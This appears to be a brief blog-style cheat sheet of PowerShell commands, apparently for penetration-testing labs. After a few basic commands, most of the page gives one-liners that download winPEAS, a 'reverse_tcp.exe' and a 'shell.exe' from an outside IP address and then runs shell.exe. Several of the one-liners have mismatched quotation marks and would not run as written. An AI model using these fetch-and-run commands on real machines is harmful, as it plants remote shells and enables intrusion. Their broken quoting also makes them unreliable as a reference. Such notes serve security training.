 ```yaml
---
title: PowerShell
author: Edwards
layout: post 
date: 2020-11-15
---
```


# PowerShell commands

## Basic 

. cd 
. more
. dir

## Download from remote machine 
```bash
powershell -c wget "http://10.11.15.91/winPEASx86.exe -outfile "winPEAS.exe"
```

```bash
powershell "(New-Object Net.WebClient).DownloadFile('http://10.11.15.91:8000/reverse_tcp.exe,'reverse_tcp.exe')"
```

```powershell
powershell -c "Invoke-WebRequest -Uri 'http://10.11.15.91:8000/shell.exe' -OutFile 'shell.exe'
```

execute it with : 
```powershell
.\shell.exe
```
